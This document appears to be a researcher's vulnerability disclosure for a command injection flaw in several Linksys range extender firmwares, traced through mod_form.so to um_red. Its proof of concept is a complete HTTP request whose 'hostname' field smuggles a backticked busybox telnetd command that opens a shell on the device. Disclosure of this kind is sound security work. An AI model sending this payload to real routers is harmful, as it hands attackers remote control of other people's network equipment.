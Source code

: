 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `sub_3517C` function, `hostname` is directly passed by the attacker, so we can control the `hostname` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

`mod_form.so->internet.sh->um_red`

In `um_red` binary:

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `hostname` as **`busybox telnetd -l /bin/sh -p 2235`** , and the router will excute it,such as:

```http
POST /goform/setWan HTTP/1.1
Host: extender.linksys.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 120
Origin: http://extender.linksys.com
Connection: close
Referer: http://extender.linksys.com/admin/log.shtml
Cookie: session_id=AnN5TD0hy6ydUJ4D3PAQEaHuYKCoS5nc
Upgrade-Insecure-Requests: 1

connectionType=DHCP&manuallyDNS=&staticPriDns=&staticSecDns=&FriendlyName=&hostname=`busybox telnetd -l /bin/sh -p 2235`
```



## Result

Get a shell!

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>

